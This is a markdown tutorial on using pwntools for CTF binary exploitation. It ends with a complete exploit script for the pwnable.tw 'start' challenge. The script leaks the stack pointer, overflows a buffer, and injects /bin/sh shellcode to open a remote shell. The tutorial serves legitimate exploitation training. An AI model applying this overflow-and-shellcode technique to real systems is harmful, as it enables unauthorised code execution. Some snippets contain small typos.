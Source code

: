 # Binary Exploitation

## [Pwntools](https://github.com/Gallopsled/pwntools)
A grab-bag of tools to make writing exploits for CTFs easy!

### Install
```
apt-get update
apt-get install python2.7 python-pip python-dev git libssl-dev libffi-dev build-essential
pip install --upgrade pip
pip install --upgrade pwntools
```

### Usage
Include in file:
```python
from pwn import *
``` 

#### [Making Connections](http://docs.pwntools.com/en/stable/tubes.html#module-pwnlib.tubes)
How to connect to sockets and over ssh:
##### [Netcat](http://docs.pwntools.com/en/stable/tubes/sockets.html#module-pwnlib.tubes.remote)
```python
connection = remote(host, port)

# Example:
r = remote('pwn.hsctf.com', 1234)
# Same as 'nc pwn.hsctf.com 1234'
```

##### [SSH](http://docs.pwntools.com/en/stable/tubes/ssh.html#module-pwnlib.tubes.ssh)
```python
session = ssh(username, host, password=passwd)

# Example:
s = ssh('bandit0', 'bandit.labs.overthewire.org', password='bandit0')
# Same as 'ssh bandit@bandit.labs.overthewire.org'
```


#### [Interacting with Processes](http://docs.pwntools.com/en/stable/tubes/processes.html#module-pwnlib.tubes.process)
Now that we've connected to the host, how do we interact with it?
#### Interacting with a remote
```python
r = remote('12.123.45.324', 666) # Connect
r.recvline()			 # Receive next line from remote
r.send("test\r\n")               # Send to remote
r.interactive()                  # Manually interact with remote
...
r.close()			 # Close connection
```

#### Interacting with a process
```python
# Connect over ssh to host
s = ssh('bandit0', 'bandit.labs.overthewire.org', password='bandit0')

sh = s.process('/bin/sh')	  # Run shell
# or s.run('sh')

sh.sendline('echo Hello, world!') # Send to shell, appends newline
sh.recvline(timeout=5)	          # Receive line to shell, returns after nothing received for 5 seconds
sh.interactive()		  # Manually interact with shell
...
s.close()                         # Close ssh connection
```


#### [Setting Target Architecture and OS](http://docs.pwntools.com/en/stable/intro.html#setting-the-target-architecture-and-os)
You can set the global context so that other functions (such as p32 and asm) default to the correct endianess and architecture:
```python
context.arch      = 'i386'
context.os        = 'linux'
context.endian    = 'little'
context.word_size = 32

# or

context(arch='arm', os='linux', endian='big', word_size=32)
```


#### [Packing Integers](http://docs.pwntools.com/en/stable/util/packing.html#module-pwnlib.util.packing)
How to convert between integers as Python sees them and their representation as a sequence of bytes:
```python
# What you will use most often
win = p32(0xdeadbeef) # Packs 32-bit int, endianness and sign based on *context*
# Same as '\xef\xbe\xad\xde' on x86 or arm (little endian)

# Can use other bit sizes and specify endianess and sign
p8(0x54, endian='little', sign='signed'
p16(0x541A, endian='big', sign='signed')
p64(0x541A2B4E28BD541C, endian='big', sign='unsigned')

# Example:
buf = 'A'*20
win = p32(0xdeadbeef) 
payload = buf + win

r.sendline(payload)
r.interactive()
```


#### [Assembly and Disassembly](http://docs.pwntools.com/en/stable/asm.html#module-pwnlib.asm)
Converting from assembly instructions to byte representations and back:
```python
asm('mov eax, 0').encodde('hex') # 'b800000000'

disasm('6a0258cd80ebf9'.decode('hex'))
#   0:   6a 02                   push   0x2
#   2:   58                      pop    eax
#   3:   cd 80                   int    0x80
#   5:   eb f9                   jmp    0x0

# Example: 
shellcode = asm('\n'.join([   # Shell code that will run /bin/sh when executed
    'push %d' % u32('/sh\0'),
    'push %d' % u32('/bin'),
    'xor edx, edx',
    'xor ecx, ecx',
    'mov ebx, esp',
    'mov eax, 0xb',
    'int 0x80']))

payload = "A"*20  + p32(esp + 20) + shellcode 
r.send(payload)
r.interactive()
```

##### [Shellcode generation - You don't need to write your own shellcode!](http://docs.pwntools.com/en/stable/shellcraft.html#module-pwnlib.shellcraft)


### Example Program
```python
from pwn import *

def leak_esp(r):
	address_1 = p32(0x08048087)             # mov ecx, esp; mov dl, 0x14; mov bl, 1; mov al, 4; int 0x80; 
	payload = 'A'*20 + address_1
	print r.recvuntil('CTF:')
	r.send(payload)
	esp = u32(r.recv()[:4])
	print "Address of ESP: ", hex(esp)
	return esp

shellcode = asm('\n'.join([
    'push %d' % u32('/sh\0'),
    'push %d' % u32('/bin'),
    'xor edx, edx',
    'xor ecx, ecx',
    'mov ebx, esp',
    'mov eax, 0xb',
    'int 0x80',
]))

if __name__ == "__main__":
    context.arch = 'i386'
    r = remote('chall.pwnable.tw', 10000)
    #gdb.attach(r)
    esp = leak_esp(r)
    payload = "A"*20  + p32(esp + 20) + shellcode 
    r.send(payload)
    r.interactive()
```

### [Other Example Programs](https://github.com/Gallopsled/pwntools-write-ups)
